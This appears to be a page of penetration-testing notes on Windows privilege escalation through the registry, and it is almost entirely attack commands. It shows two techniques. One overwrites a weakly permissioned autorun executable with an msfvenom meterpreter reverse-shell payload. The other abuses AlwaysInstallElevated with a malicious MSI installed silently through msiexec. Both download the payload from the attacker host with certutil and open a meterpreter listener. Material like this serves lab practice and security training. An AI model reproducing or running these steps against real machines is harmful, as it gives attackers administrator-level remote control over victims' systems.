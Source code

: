 ## Registry

```shell
#check autoruns in victim machine
#in cmd prompt
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe

#for 'My Program' entry in Autoruns
#check access using accesschk tool
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
#'Everyone' user group has all access permission on 'program.exe'

#in attacker machine
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.14.31.212 -f exe -o program.exe

msfconsole -q

use multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST 10.14.31.212

run
#starts listener

#in another tab
python3 -m http.server

#in attacker machine
certutil.exe -urlcache -f http://10.14.31.212:8000/program.exe program.exe

copy program.exe "C:\Program Files\Autorun Program"
#overwrites autorun program.exe with malicious program

#now we can logout and login back as administrator user
#this gives us a meterpreter shell at our msfconsole listener
```

```shell
#AlwaysInstallElevated
#in victim cmd prompt
reg query HKLM\Software\Policies\Microsoft\Windows\Installer

reg query HKCU\Software\Policies\Microsoft\Windows\Installer
#for both queries, AlwaysInstallElevated is 1

#in attacker machine
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.14.31.212 -f msi -o setup.msi

msfconsole -q

set payload windows/meterpreter/reverse_tcp

set LHOST 10.14.31.212

run

#in victim machine
cd C:\Temp

certutil.exe -urlcache -f http://10.14.31.212:8000/setup.msi setup.msi

msiexec /quiet /qn /i C:\Temp\setup.msi
```